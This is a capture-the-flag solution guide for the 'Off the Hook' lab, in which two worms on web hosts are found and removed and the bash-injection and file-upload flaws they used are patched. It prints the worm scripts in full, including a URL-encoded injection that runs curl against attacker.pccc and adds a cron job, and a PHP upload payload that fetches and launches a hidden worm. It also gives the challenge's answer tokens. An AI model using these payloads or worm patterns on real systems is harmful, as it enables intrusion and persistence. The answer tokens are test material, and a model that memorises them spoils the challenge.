









# Off the Hook

*Solution Guide*

## Overview

In Off the Hook, the competitor is tasked with removing two worms for hosts on the local network and mitigating the exploited vulnerabilities. The vulnerabilities include a bash command injection and executing an uploaded file. 

## Question 1

*Find the token hidden as a comment in the worm script on `internalreports.pccc`*

For this first token, we need to find the worm on `internalreports.pccc`. Access the `internalreports` host by running `ssh internalreports.pccc`, using the credentials from the challenge description: `user` and `password`. You will likely also need to type `yes` before entering the password to accept the host key validation.

Now that we are on the host, there are several different techniques that can be employed to find the worm (e.g., manual search, keyword search, looking in common locations), but we will start by identifying any running processes and services. To do this, run `sudo ps -aux`.  Your output should be similar to the following:

```none
user@internalreports:~$ sudo ps -aux
[sudo] password for user:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   4364  3060 ?        Ss   19:17   0:00 /bin/bash /entrypoint.sh
root        27  0.0  0.1 199916 20748 ?        Ss   19:17   0:00 /usr/sbin/apache2 -k start
www-data    30  0.0  0.0 200436 15296 ?        S    19:17   0:00 /usr/sbin/apache2 -k start
www-data    31  0.0  0.1 200436 16784 ?        S    19:17   0:00 /usr/sbin/apache2 -k start
www-data    32  0.0  0.0 200248 10384 ?        S    19:17   0:00 /usr/sbin/apache2 -k start
www-data    33  0.0  0.0 200436 15304 ?        S    19:17   0:00 /usr/sbin/apache2 -k start
www-data    34  0.0  0.0 200248 10384 ?        S    19:17   0:00 /usr/sbin/apache2 -k start
root        42  0.0  0.0   3888  2016 ?        Ss   19:17   0:00 /usr/sbin/cron -P
root        51  0.0  0.0  15436  5328 ?        Ss   19:17   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        52  0.0  0.0   2824  1000 ?        S    19:17   0:00 tail -F /var/log/apache2/access.log /var/log/apache2/
www-data    59  0.0  0.0 200248 10384 ?        S    19:17   0:00 /usr/sbin/apache2 -k start
root       531  0.0  0.0  17152 10756 ?        Ss   20:44   0:00 sshd: user [priv]
user       542  0.0  0.0  17408  8016 ?        R    20:44   0:00 sshd: user@pts/0
user       543  0.0  0.0   5800  4676 pts/0    Ss   20:44   0:00 -bash
root       551  2.0  0.0   9168  5692 pts/0    S+   20:45   0:00 sudo ps -aux
root       552  0.0  0.0   9168   912 pts/1    Ss   20:45   0:00 sudo ps -aux
root       553  0.0  0.0   7792  3240 pts/1    R+   20:45   0:00 ps -aux
```

At a glance, there is nothing overly suspicious here (unless you get really lucky and happen to run `ps` right when the worm is executing), but we can deduce a little bit about what the server is doing. The container is running an `apache2` web server, along with `cron` for some regularly repeated tasks. Running `crontab -l` and `sudo crontab -l` to list the cron jobs for the current user and root return `no crontab for X`, so there does not appear to be any cron jobs running at the moment. There is also `/bin/bash /entrypoint.sh` and `tail -F /var/log/apache2/access.log /var/log/apache2/`, which might seem suspicious, but are simply part of the Docker container being run. Finally, we can see our `sshd` process and the commands that we have run.

Before we continue, let's take a look at what we have running with the Apache server. Visiting `internalreports.pccc` in a browser, we can see the following simple page that allows us to search through some data. If we hit search with a blank query, we can see the application returns a simple HTML table with the results.





At this point, it might make sense to go ahead and begin taking a look at the source code for the application, but we will instead first take a look at the Apache2 logs to see if the site has been accessed. We can find the logs by running `sudo cat /var/log/apache2/access.log`. You should see output similar to the following:

```none
172.18.0.5 - - [23/Jun/2025:20:58:26 +0000] "GET /reports.php?type=clients&query=alice%3B+curl+-fsSL+http%3A%2F%2Fattacker.pccc%2F6X9TQJ4P2M.py+-o+%2Ftmp%2F.6X9TQJ4P2M.py+%26%26+crontab+-r+2%3E%2Fdev%2Fnull%3B+echo+%27%2A+%2A+%2A+%2A+%2A+python3+%2Ftmp%2F.6X9TQJ4P2M.py%27+%7C+crontab+-%3B+python3+%2Ftmp%2F.6X9TQJ4P2M.py HTTP/1.1" 200 449 "-" "python-requests/2.32.4"
172.18.0.6 - - [23/Jun/2025:20:58:50 +0000] "GET / HTTP/1.1" 200 649 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36"
172.18.0.6 - - [23/Jun/2025:20:58:50 +0000] "GET /favicon.ico HTTP/1.1" 404 496 "http://internalreports.pccc/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36"
172.18.0.6 - - [23/Jun/2025:21:06:49 +0000] "GET /reports.php?type=clients&query=alice HTTP/1.1" 200 449 "http://internalreports.pccc/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36"
172.18.0.6 - - [23/Jun/2025:21:06:54 +0000] "GET /reports.php?type=clients&query= HTTP/1.1" 200 677 "http://internalreports.pccc/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36"
```

We can see our normal queries there at the bottom (I searched for `Alice` and ` `), but at the top we can see a really supicious request: 

```text 
GET /reports.php?type=clients&query=alice%3B+curl+-fsSL+http%3A%2F%2Fattacker.pccc%2F6X9TQJ4P2M.py+-o+%2Ftmp%2F.6X9TQJ4P2M.py+%26%26+crontab+-r+2%3E%2Fdev%2Fnull%3B+echo+%27%2A+%2A+%2A+%2A+%2A+python3+%2Ftmp%2F.6X9TQJ4P2M.py%27+%7C+crontab+-%3B+python3+%2Ftmp%2F.6X9TQJ4P2M.py
```

This is a bit hard to read at the moment, as it is url encoded, but some of the words there are definitely suspicious! We can use a tool like https://meyerweb.com/eric/tools/dencoder/ or the `hURL` command in our Kali terminal, it becomes more legible.

```bash
hURL -u "/reports.php?type=clients&query=alice%3B+curl+-fsSL+http%3A%2F%2Fattacker.pccc%2F6X9TQJ4P2M.py+-o+%2Ftmp%2F.6X9TQJ4P2M.py+%26%26+crontab+-r+2%3E%2Fdev%2Fnull%3B+echo+%27%2A+%2A+%2A+%2A+%2A+python3+%2Ftmp%2F.6X9TQJ4P2M.py%27+%7C+crontab+-%3B+python3+%2Ftmp%2F.6X9TQJ4P2M.py"

Original    :: /reports.php?type=clients&query=alice%3B+curl+-fsSL+http%3A%2F%2Fattacker.pccc%2F6X9TQJ4P2M.py+-o+%2Ftmp%2F.6X9TQJ4P2M.py+%26%26+crontab+-r+2%3E%2Fdev%2Fnull%3B+echo+%27%2A+%2A+%2A+%2A+%2A+python3+%2Ftmp%2F.6X9TQJ4P2M.py%27+%7C+crontab+-%3B+python3+%2Ftmp%2F.6X9TQJ4P2M.py

URL DEcoded :: /reports.php?type=clients&query=alice;+curl+-fsSL+http://attacker.pccc/6X9TQJ4P2M.py+-o+/tmp/.6X9TQJ4P2M.py+&&+crontab+-r+2>/dev/null;+echo+'*+*+*+*+*+python3+/tmp/.6X9TQJ4P2M.py'+|+crontab+-;+python3+/tmp/.6X9TQJ4P2M.py
```

The `+` represent spaces (which the above linked web tool will also replace), so the final value we extract is:

```none
/reports.php?type=clients&query=alice; curl -fsSL http://attacker.pccc/6X9TQJ4P2M.py -o /tmp/.6X9TQJ4P2M.py && crontab -r 2>/dev/null; echo '* * * * * python3 /tmp/.6X9TQJ4P2M.py' | crontab -; python3 /tmp/.6X9TQJ4P2M.py
```

This is bash injection! We can see the `curl` command is injected to download a Python script to `/tmp/.6X9TQJ4P2M.py`, and that something is injected into the crontab. In this case, it's `* * * * * python3 /tmp/.6X9TQJ4P2M.py`, which means that the downloaded script should be executed every minute. Finally, it calls the worm immediately. There are lots of potential steps to follow now, but for this token, we need to first find the worm script, so let's call `cat /tmp/.6X9TQJ4P2M.py` to see what it contains. You'll see the following output:

```python
# FROM cat /tmp/.6X9TQJ4P2M.py

import base64
import subprocess
import requests
import socket

protectedSite = "internalreports"
hostname = socket.gethostname()

# UENDQ3tKdXN0X2tlZXBfc3dpbW1pbmdfRVpfNzFSTX0=

def checkFirewallRuleUpdates():
    url = f"http://attacker.pccc/6X9TQJ4P2M_c2"

    try:
        response = requests.get(url, timeout=2)
        if response.status_code == 200:
            subprocess.run(["python3", "/var/tmp/.6X9TQJ4P2M_c2.py"])
    except requests.RequestException:
        pass

def installFirewall():
    url = f"http://{protectedSite}.pccc/reports.php"
    data = {
        "type": "clients",
        "query": "alice; curl -fsSL http://attacker.pccc/6X9TQJ4P2M.py -o /tmp/.6X9TQJ4P2M.py && crontab -r 2>/dev/null; echo '* * * * * python3 /tmp/.6X9TQJ4P2M.py' | crontab -; python3 /tmp/.6X9TQJ4P2M.py"
    }

    try:
        response = requests.get(url, params=data)
        if response.status_code == 200:
            print("Firewall installation triggered")
        else:
            print(response.text)
    except requests.RequestException as e:
        print(e)

if protectedSite not in hostname:
    installFirewall()
else:
    checkFirewallRuleUpdates()
```

This script has some weak misdirection to appear to be a firewall, but is clearly a malicious worm that is waiting for new commands by checking for a new script from `http://attacker.pccc/6X9TQJ4P2M_c2`. We can also see the script contains the bash command that was run earlier, so we can see exactly how the worm ran.  Finally, near the top, we can see the Base64 string: `UENDQ3tKdXN0X2tlZXBfc3dpbW1pbmdfRVpfNzFSTX0=`. If decode that with an online base 64 decoder like cyberchef, or with `echo UENDQ3tKdXN0X2tlZXBfc3dpbW1pbmdfRVpfNzFSTX0= | base64 -d` in our kali terminal, we find our first token.



In this case, the token was `PCCC{Just_keep_swimming_EZ_71RM}`.

## Question 2

*Remediate the vulnerability that allowed the worm to gain access to `internalreports.pccc`*

With the worm script identified, we can now start to figure out the vulnerability, and repair. Based on our earlier finding, it makes the following request to inject a bash command:

```python
...
url = f"http://{protectedSite}.pccc/reports.php"
    data = {
        "type": "clients",
        "query": "alice; curl -fsSL http://attacker.pccc/6X9TQJ4P2M.py -o /tmp/.6X9TQJ4P2M.py && crontab -r 2>/dev/null; echo '* * * * * python3 /tmp/.6X9TQJ4P2M.py' | crontab -; python3 /tmp/.6X9TQJ4P2M.py"
    }

    try:
        response = requests.get(url, params=data)
        ...
```

It appears that the file `reports.php` is our vulnerable file, and the vulnerability occurs in the data field `query`. Let's take a look at the code for the site. Navigate to the web directory with `cd /var/www/html` and run `ls` for the list of files. The `index.html` is a simple HTML file with no interesting logic (just the form with the select box, textbox, and submit buttons). Let's instead take a look at our target with `cat reports.php`.

```PHP
<?php
$type = $_GET['type'];
$query = $_GET['query'];

// Business is booming! This is getting a little much to manage like this
// Should migrate to database soon? Need to hire another unpaid intern...

$cmd = "/var/data/search.sh " . escapeshellarg($type) . " " . $query;
$output = shell_exec($cmd);

$output = [];
$return_code = 0;

exec($cmd . " 2>&1", $output, $return_code);

$lines = array_filter($output);

if (count($lines) > 0) {
    echo "<h2>Search Results</h2>";
    echo "<table border='1' cellpadding='5' cellspacing='0'>";

    $header = str_getcsv(array_shift($lines));
    echo "<thead><tr>";
    foreach ($header as $col) {
        echo "<th>" . htmlspecialchars($col) . "</th>";
    }
    echo "</tr></thead><tbody>";

    foreach ($lines as $line) {
        $fields = str_getcsv($line);
        echo "<tr>";
        foreach ($fields as $field) {
            echo "<td>" . htmlspecialchars($field) . "</td>";
        }
        echo "</tr>";
    }

    echo "</tbody></table>";
} else {
    echo "<p>No results found.</p>";
}
?>
```

We can see the majority of the file is dedicated to creating the HTML table, but near the top we see:

```PHP
<?php
$type = $_GET['type'];
$query = $_GET['query'];

// Business is booming! This is getting a little much to manage like this
// Should migrate to database soon? Need to hire another unpaid intern...

$cmd = "/var/data/search.sh " . escapeshellarg($type) . " " . $query;
$output = shell_exec($cmd);
```

The variable `$query` contains user input and is then used to construct a string that is executed as a bash command using `shell_exec`. However, this input has not been correctly escaped! We can resolve the vulnerability by calling `escapeshellarg`, just like is being done on the variable `$type`. Thus, we need to change the line to be:

```PHP
$cmd = "/var/data/search.sh " . escapeshellarg($type) . " " . escapeshellarg($query);
```

You can edit the file with `sudo nano /var/www/html/reports.php`. Once done, hit `<CTRL-X>` and then `Y` to save.




With that done, we just need to run the grader for our token. Visit `http://challenge.pccc`, and click "Grade". After 10-20 seconds, hit "Refresh" to see the results.



In this case, the token was `PCCC{oooo_tasty_worm_ZI_37ha}`.

## Question 3

*Remove all artifacts related to the worm on `internalreports.pccc` (there are two)*

Now we need to remove the artifacts from the worm. We have already identified one: `/tmp/.6X9TQJ4P2M.py`, the actual worm script itself. We just need to find the second artifact. Going back to the command we found in Question 1, we know there was something happening with `crontab`.

```none
/reports.php?type=clients&query=alice; curl -fsSL http://attacker.pccc/6X9TQJ4P2M.py -o /tmp/.6X9TQJ4P2M.py && crontab -r 2>/dev/null; echo '* * * * * python3 /tmp/.6X9TQJ4P2M.py' | crontab -; python3 /tmp/.6X9TQJ4P2M.py
```

However, as we found before, running `crontab -l` and `sudo crontab -l` did not give results. If there is a cron job set, it's not for either of the two users we might usually expect. Instead, we need to think back to the process list we found with `sudo ps -aux`. The Apache server is not running as root; it is running as the user `www-data`. Thus, the command above, when executed, would be executed as `www-data` (if you haven't yet remediated the vulnerability, you can observe this by running our own "exploit" with `curl "http://internalreports.pccc/reports.php?type=clients&query=alice;whoami"` or by visiting that URL in the browser; the last row of the table will contain `www-data`).

We can check the crontab for `www-data` with the command `sudo crontab -l -u www-data`.


This reveals the malicious job that has been inserted. So, now we need to remove (or move) these two artifacts. Since the worm script itself contains a token, I'll instead move it to the home directory, but you are free to delete it with `rm`. We will also delete the crontab for `www-data` using `-r` instead of `-l` for remove.

```bash
sudo mv /tmp/.6X9TQJ4P2M.py /home/user/
sudo crontab -u www-data -r
```

With that done, we just need to run the grader for our token. Visit `http://challenge.pccc`, and click "Grade". After 10-20 seconds, hit "Refresh" to see the results.


In this case, the token was `PCCC{On_the_hook_hq_60IN}`.

## Question 4

*Find the token hidden as a comment in the worm script on `publicsite.pccc`*

Alright, now we are back to finding worms, but now we need to switch over to `publicsite.pccc`. The ssh credentials are the same as before: `user` `password`, `ssh publicsite.pccc`.  We can then start once again by checking for any running processes and services with `sudo ps -aux`:

```none
user@publicsite:~$ sudo ps -aux
[sudo] password for user:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   4364  3124 ?        Ss   00:10   0:00 /bin/bash /entrypoint.sh
root        23  0.0  0.1 199916 20656 ?        Ss   00:10   0:00 /usr/sbin/apache2 -k start
www-data    26  0.0  0.1 200428 16284 ?        S    00:10   0:00 /usr/sbin/apache2 -k start
www-data    27  0.0  0.0 200288 16092 ?        S    00:10   0:00 /usr/sbin/apache2 -k start
www-data    28  0.0  0.0 200428 15448 ?        S    00:10   0:00 /usr/sbin/apache2 -k start
www-data    29  0.0  0.0 200296 15728 ?        S    00:10   0:00 /usr/sbin/apache2 -k start
www-data    30  0.0  0.0 200428 15448 ?        S    00:10   0:00 /usr/sbin/apache2 -k start
root        38  0.0  0.0   3888  1936 ?        Ss   00:10   0:00 /usr/sbin/cron -P
root        47  0.0  0.0  15436  5456 ?        Ss   00:10   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        48  0.0  0.0   2824  1004 ?        S    00:10   0:00 tail -F /var/log/apache2/access.log /var/log/apache2/error.log /
www-data    52  0.0  0.1  31384 25280 ?        S    00:12   0:00 /usr/bin/python3 /var/www/html/uploads/.htaccess
www-data    59  0.0  0.1  31384 25076 ?        S    00:25   0:00 /usr/bin/python3 /var/www/html/uploads/.htaccess
root        80  0.2  0.0  17152 10840 ?        Ss   00:36   0:00 sshd: user [priv]
user        91  0.0  0.0  17408  7820 ?        R    00:36   0:00 sshd: user@pts/0
user        92  0.1  0.0   5796  4632 pts/0    Ss   00:36   0:00 -bash
root        96  1.5  0.0   9172  5604 pts/0    S+   00:36   0:00 sudo ps -aux
root        97  0.0  0.0   9172   916 pts/1    Ss   00:36   0:00 sudo ps -aux
root        98  0.0  0.0   7792  3200 pts/1    R+   00:36   0:00 ps -aux
```

It looks like we have another Apache server with `cron` running. Checking the logs again with `sudo cat /var/log/apache2/access.log`, we should get something similar to the following.

```none
sudo cat /var/log/apache2/access.log
172.18.0.5 - - [24/Jun/2025:00:10:28 +0000] "POST /upload.php HTTP/1.1" 200 330 "-" "python-requests/2.32.4"
172.18.0.5 - - [24/Jun/2025:00:10:28 +0000] "GET /uploads/upload.php HTTP/1.1" 200 203 "-" "python-requests/2.32.4"
```

In both of these cases, taking a quick glance (especially if you are unfamiliar with Apache) might be insufficient to note the odd indicators in both of these cases. The oddity from `ps` is a little more obvious: `/usr/bin/python3 /var/www/html/uploads/.htaccess`. The `.htaccess` files are used to provide configuration settings to Apache on at the directory level. In this case, however, they are being executed as a Python script! That is very odd behavior that might not immediately stand out.

The second issue is in the logs, where we have two requests, one immediately after the other, for `/upload.php` and `/uploads/upload.php`. It's bit odd to have those two different files, but it's not necessarily malicious. However, if you try to run `cat /var/www/html/uploads/upload.php`, you'll find that file no longer exists!

At this point, we should take a quick second to inspect the website itself.



It does indeed appear to allow uploads, and if we try to upload a file, we see it takes us to `http://publicsite.pccc/upload.php` and the uploaded file is placed at `http://publicsite.pccc/uploads/{fileName}`. What has happened here is that the `uploads/upload.php` file was actually uploaded by `attacker.pccc` as part of the attack.

Going back to the odd `ps` command, we can inspect the odd `.htaccess` file with `cat /var/www/html/uploads/.htaccess`.

```python
#!/usr/bin/python3

import base64
import io
import subprocess
import time
import requests
import socket

name = "publicsite"
hostname = socket.gethostname()

# UENDQ3t3cmlnZ2xlX2ZyZWVfemhfMzRlan0=

def antivirusUpdate():
    url = f"http://attacker.pccc/Z4MPK7WQLE_c2"

    try:
        response = requests.get(url, timeout=2)
        if response.status_code == 200:
            subprocess.run(["python3", "/var/tmp/.Z4MPK7WQLE_c2.py"])
    except requests.RequestException:
        pass

def antiVirusConfiguration():
    url = "http://publicsite.pccc/upload.php"

    signature = """<?php
$path = "/var/www/html/uploads/.htaccess";
$worm = "http://attacker.pccc/Z4MPK7WQLE.py";
file_put_contents($path, file_get_contents($worm));
shell_exec("chmod +x $path");
shell_exec("nohup $path >/dev/null 2>&1 &");
unlink(__FILE__);
?>"""
    files = {
        "file": ("upload.php", io.BytesIO(signature.encode()), "application/octet-stream")
    }

    try:
        response = requests.post(url, files=files)
        if response.status_code == 200:
            requests.get("http://publicsite.pccc/uploads/upload.php")
            print("Antivirus configured")
        else:
            print(response.text)
    except requests.RequestException as e:
        print(e)

if name not in hostname:
    antiVirusConfiguration()
else:
    while True:
        antivirusUpdate()
        time.sleep(60)
```

That is no `.htaccess` file, but is instead a malicious Python script! In the function `antiVirusConfiguration` we can see the code that was contained in the maliciously uploaded `uploads/upload.php`.

```php
<?php
$path = "/var/www/html/uploads/.htaccess";
$worm = "http://attacker.pccc/Z4MPK7WQLE.py";
file_put_contents($path, file_get_contents($worm));
shell_exec("chmod +x $path");
shell_exec("nohup $path >/dev/null 2>&1 &");
unlink(__FILE__);
?>
```

This code downloads the worm into the `.htaccess` file, then executes it and deletes itself. We can also see the base64 encoded token there at the top. We can use `echo "UENDQ3t3cmlnZ2xlX2ZyZWVfemhfMzRlan0=" | base64 -d` to decode the token.



In this case, the token was `PCCC{wriggle_free_zh_34ej}`.

## Question 5

*Remediate the vulnerability that allowed the worm to gain access to `publicsite.pccc`*

Continuing from where we left off in Question 4, we now know the vulnerability occurred because the attacker could upload a malicious PHP file, and then execute that file. In this case, the quickest and easiest solution is to simply disable script execution in the Apache server's config.  Using `sudo nano /etc/apache2/apache2.conf`, copy the following configuration at the bottom of the file (note the cleanest way to do this would be to add a specific configuration file for this, but editing the parent config is fine for our purposes):

```apache
<Directory /var/www/html/uploads>
    Options -ExecCGI -Includes
    php_admin_flag engine off
    RemoveHandler .php .phtml .phar .php3 .php4 .php5 .php7 .phps .cgi .pl .py .sh
    AllowOverride None
</Directory>
```

Now restart the Apache server with `sudo service apache2 restart`. If you'd like, you can try uploading a test PHP script like `<?php echo 6 * 7; ?>` and then visit the file to see if it is executed.

With that done, we just need to run the grader for our token. Visit `http://challenge.pccc`, and click "Grade". After 10-20 seconds, hit "Refresh" to see the results.


If you visit `http://publicsite.pccc/uploads` for the directory listing, you can also see the uploaded test files from the grader.



In this case, the token was `PCCC{happy_fish_BS_69xj}`.

## Question 6

Now for the final token, we just need to remove the artifacts, as we did before. In this case, we have the running process(es), and the `.htaccess` file.  Just like before, I'll move the `.htaccess` file since it contains a token.

```bash
sudo mv /var/www/html/uploads/.htaccess /home/user
sudo pkill -f "/usr/bin/python3 /var/www/html/uploads/.htacces"
```

